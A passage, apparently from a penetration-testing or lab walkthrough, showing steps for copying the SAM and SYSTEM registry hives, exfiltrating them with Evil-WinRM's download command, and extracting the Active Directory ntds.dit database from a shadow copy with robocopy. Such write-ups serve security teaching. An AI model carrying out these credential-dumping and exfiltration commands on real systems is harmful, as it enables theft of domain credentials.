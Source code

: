 Result:
```output
New File   16.2 m   SYSTEM
```

Confirming copied files

```bash
ls C:\temp\
```

Result:

```output
SAM     (64 KB)
SYSTEM  (16.2 MB)
```

## Step 13: Downloading Registry Hives

Once the **SAM** and **SYSTEM** hives were copied, we exfiltrated them to the attacking machine using Evil-WinRM’s `download` feature:

```bash
download SAM 
```

```bash
download SYSTEM
```

**Result:**
```output 
Info: Download successful!
```

## Step 14: Extracting NTDS.dit

To fully dump all domain credentials, we also need the **Active Directory database** (`ntds.dit`). Using the shadow copy, we copied it out:

```bash
robocopy /b Z:\Windows\NTDS C:\temp ntds.dit
```

Result:
```output
New File   16.0 m   ntds.dit
```

We then downloaded the file:
```bash
download ntds.dit .
```

Result:
```output
Info: Download successful!
```
